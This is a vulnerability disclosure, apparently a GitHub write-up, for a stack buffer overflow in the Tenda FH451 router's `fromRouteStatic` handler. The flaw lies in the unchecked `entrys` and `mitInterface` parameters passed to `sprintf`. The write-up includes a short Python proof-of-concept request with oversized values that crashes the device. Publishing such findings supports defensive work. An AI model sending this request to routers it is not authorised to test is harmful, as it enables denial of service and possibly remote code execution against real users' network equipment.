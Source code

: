 # Tenda FH451 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [FH451_V1.0.0.5](https://www.tenda.com.cn/download/detail-1375.html) and Tenda [FH451_V1.0.0.7](https://www.tenda.com.cn/download/detail-1594.html) .
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun1.png)
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun2.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@XYlearn](https://github.com/XYlearn) and [@Funcy_kilar](https://github.com/Funcy33) from Fudan University, Guangzhou University.

